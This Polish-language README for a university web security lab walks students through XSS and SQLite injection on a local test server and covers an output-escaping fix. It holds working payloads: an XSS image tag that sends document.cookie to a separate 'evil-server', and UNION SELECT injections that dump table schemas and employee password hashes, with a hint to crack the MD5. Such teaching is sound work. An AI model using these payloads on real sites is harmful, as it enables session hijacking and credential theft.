 # BAIiM_project
Command Injection, Code Injection i Cross-Site Scripting

## Wymagania
* Git (git clone)
* Node.js
* Python 3.10 (lub nowszy)
* Docker
* Docker-compose

## Wstęp
* Sklonuj repozytorium (git clone)
* Zainstaluj pakiety Node.js zdefiniowane w `package.json` z pomocą poniższej komendy:
```
npm install
```

## Zadanie 1

* Uruchom lokalny serwer WWW za pomocą Node.js:
```
node server.js
```

To spowoduje pojawienie się komunikatu: `Serwer nasłuchuje na porcie 3000`. 
W wyszukiwarce wpisz link `http://localhost:3000/`.
* Możesz wpisać dowolną rzecz w pole tekstowe, a następnie kliknąć `Szukaj`. Sprawdź jak zachowuje się to zapytanie i czy wygląda na podatne na atak.
* Przy użyciu klawisza F12 otwórz "Developer Tools" i wklej poniższy kod do konsoli:
```
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'BAIiM\')">');
```
* Następnie skopiuj wynik i wklej go do paska URL, tak aby wyglądał w następujący sposób: `http://localhost:3000/?val=<wynik>`

* W "Developer Tools" otwórz zakładkę "Application". A następnie "Storage" -> "Cookies", kliknij "localhost:3000", aby wyświetlić pliki cookies zapisane dla tej strony.

* Znajdujemy tam ciasteczko o nazwie "connect.sid". Spróbuj zyskać do niego dostęp poprzez wklejenie poniższego kodu do pola tekstowego - musisz najpierw powtórzyć krok z `encodeURIComponent` na poniższym kodzie (jako wynik powinniśmy zobaczyć zawartość w wyskakującym okienku):
 ```
<img src="does-not-exist" onerror="alert(document.cookie)">
```
* teraz uruchom kolejny serwer (w osobnym terminalu):
```
node evil-server.js
```

* teraz spróbujesz wykraść plik cookie. Wklej poniższy kod do pola tekstowego (tak jak poprzednio użyj `encodeURIComponent`)

```
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
* zobacz wynik w terminalu, w którym uruchomiony został `evil-server.js`
* zastanów się dlaczego to, co wykonałeś powyżej może być groźne

### Zabezpieczenie
* W pliku `public/index.html` znajdź funkcję "showQueryAndResults". Pobiera ona wartość zapytania `val` i wpisuje do `<div id="results"></div>`
* Możemy zmienić ją tak, aby `val` trakowane było jako tekst. W tym celu dodaj poniższy kod na końcu funkcji "showQueryAndResults".
```
var queryTextEl = document.querySelector('#results pre');
	queryTextEl.textContent = val;
```
* zastanów się, jaki ma to wpływ

## Zadanie 2
Poniżej znajduje się instrukcja dotycząca używania poleceń SQL dla ataków typu injection w bazie danych SQLite (screen tabeli dostępnych produktów znajduje się w folderze Zadanie-2):
* Sprawdź, czy atak injection może zadziałać, wpisując następujące polecenie (`sqlite_master` to domyślna tabela w bazie danych SQLite, która przechowuje informacje o każdej tabeli w bazie danych):
```
woda' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
```
* Uzyskaj nazwy tabel z tabeli głównej (polecenie SQL zwraca informacje o tabeli):
```
woda' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
```
`name` i `sql` to kolumny w tabeli `sqlite_master`. `name` zwraca nazwę tabeli, a `sql` zwraca informacje SQL dotyczące tabeli (np. kolumny).
* Uzyskaj informacje z dwóch kolumn i utwórz trzecią kolumnę:
```
woda' UNION SELECT username,password,3 from employees;--
 ```
* Zwróć uwagę, że w kolumnie `password` pojawia się ciąg znaków. Zastanów się co możesz z nim zrobić. (podpowiedź: md5).

Przeanalizuj powyższe polecenia i zastanów się skąd wynikają poszczególne ich elementy.

Dlaczego atak nie powiedzie się podając tylko złośliwe zapytanie SQL?

## Zadanie 3
Twoim ostatnim zadaniem jest samodzielne dokonanie serii ataków XSS. Wyzwanie składa się z 6 poziomów, w ramach których należy ominąć zaimplementowane zabezpieczenia.


W celu uruchomienia serwera wykonaj poniższe kroki:
* Zainstaluj program [docker](https://docs.docker.com/get-docker/) oraz [docker-compose](https://docs.docker.com/compose/install/).
* Przejdź do katalogu Zadanie-3 (folder zawierający plik docker-compose.yml)
* Wykonaj polecenie `sudo docker-compose up`
* Przejdź do wyzwań dostępnych pod adresem: http://localhost:9003


Jeśli podczas wykonywania polecenia `docker-compose up` napotkasz problemy upewnij się, że usługa docker'a została uruchomiona. W przeciwnym wypadku wykonaj polecenie `sudo systemctl start docker`.

Jeżeli problem nadal występuje, należy całkowicie zresetować pracę usługi poprzez polecenie `sudo systemctl restart docker`.


## Bibliografia
* "Bezpieczeństwo aplikacji webowych" - Michał Bentkowski, Gynvael Coldwind, Artur Czyż, Rafał Janicki, Jarosław Kamiński, Adrian Michalczyk, Mateusz Niezabitowski, Marcin Piosek, Michał Sajdak, Grzegorz Trawiński, Bohdan Widła
* https://crashtest-security.com/different-injection-attack-types/​
* https://learn.snyk.io/lessons/​
* https://www.imperva.com/learn/application-security/command-injection/​
* https://owasp.org/www-community/attacks/Command_Injection​
* https://crashtest-security.com/command-injection/​
* https://crashtest-security.com/code-injection/​
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html​
* https://www.acunetix.com/websitesecurity/cross-site-scripting/ 
* https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/
* https://github.com/inforkgodara/xss-vulnerability 
* https://github.com/neophyt3/sql-injection-exercises

  ### Dodatkowe
  #### Gry XSS i zadania:
  * http://sudo.co.il/xss/
  * https://xss-game.appspot.com/ 
  * https://alf.nu/alert1?world=alert&level=alert0 
  * http://prompt.ml/0 
  * https://xss-quiz.int21h.jp/
  * https://domgo.at/cxss/example

  #### Animacja o XSS wraz z wyjaśnieniem
  * https://www.hacksplaining.com/exercises/xss-stored (animacja)
  * https://www.hacksplaining.com/prevention/xss-stored (wyjaśnienie)
